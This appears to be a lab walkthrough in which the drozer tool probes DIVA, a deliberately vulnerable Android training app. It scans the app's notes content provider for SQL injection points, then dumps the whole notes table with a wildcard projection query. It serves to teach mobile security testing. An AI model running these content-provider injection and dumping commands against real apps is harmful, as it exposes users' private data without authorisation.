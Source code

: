 # Using `help` command for detail information #
    
```help scanner.provider.injection```
<br><br>
```help app.provider.query```
<br><br><br>
* **Running `scanner.provider.injection` for scanning available vulnerable content injection**

    ```
    dz> run scanner.provider.injection -a jakhar.aseem.diva
    Scanning jakhar.aseem.diva...
    Not Vulnerable:
      content://jakhar.aseem.diva.provider.notesprovider
      content://jakhar.aseem.diva.provider.notesprovider/

    Injection in Projection:
      content://jakhar.aseem.diva.provider.notesprovider/notes/
      content://jakhar.aseem.diva.provider.notesprovider/notes

    Injection in Selection:
      content://jakhar.aseem.diva.provider.notesprovider/notes/
      content://jakhar.aseem.diva.provider.notesprovider/notes
    ```

* **Running `app.provider.query` for dump all tables field**

    ```
    dz> run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/ --projection "*"
    | _id | title    | note                                 |
    | 5   | Exercise | Alternate days running               |
    | 4   | Expense  | Spent too much on home theater       |
    | 6   | Weekend  | b333333333333r                       |
    | 3   | holiday  | Either Goa or Amsterdam              |
    | 2   | home     | Buy toys for baby, Order dinner      |
    | 1   | office   | 10 Meetings. 5 Calls. Lunch with CEO |
    ```
